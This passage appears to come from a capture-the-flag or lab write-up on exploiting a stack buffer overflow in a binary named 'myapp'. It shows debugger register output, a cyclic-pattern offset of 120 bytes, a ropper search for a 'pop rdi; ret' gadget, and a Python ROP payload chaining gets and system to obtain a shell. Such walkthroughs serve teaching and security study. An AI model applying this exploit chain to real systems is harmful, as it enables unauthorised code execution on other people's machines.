Now check the registers, specifically the values overwritten in RSP:

```jsx
regs

 RBP  0x616161616161616f ('oaaaaaaa')
 RSP  0x7fffffffdb48 ◂— 'paaaaaaaqa'
 RIP  0x4011ac (main+77) ◂— ret 

```

Now we can copy the RSP values and use cyclic to find out the exact offset, only copy the first 8 bytes:

```jsx
cyclic -l paaaaaaa

Finding cyclic pattern of 8 bytes: b'paaaaaaa' (hex: 0x7061616161616161)
Found at offset 120
```

Now we know we need to overwrite 120 bytes to get to RIP. Now we can use ropper to identify a pop RDI function, so we can return to that address first and change the parameters of the call to system:

```jsx
ropper --file myapp --search "pop rdi"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: myapp
0x0000000000401090: pop rdi; adc dword ptr [rax], eax; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040120b: pop rdi; ret; 
```

We will use the address at 0x000000000040120b.

Now we have everything, let’s create our final payload:

```python
0x0000000000401060  gets@plt
0x0000000000401040  system@plt
0x000000000040120b: pop rdi; ret; 
0x404038 .data

plt_gets = p64(0x0000000000401060)
pop_rdi = p64(0x000000000040120b)
plt_system = p64(0x0000000000401040)
binsh = p64(0x404038)
junk = 'A' * 120

payload = junk + pop_rdi + binsh + plt_gets + pop_rdi + binsh + plt_system

```

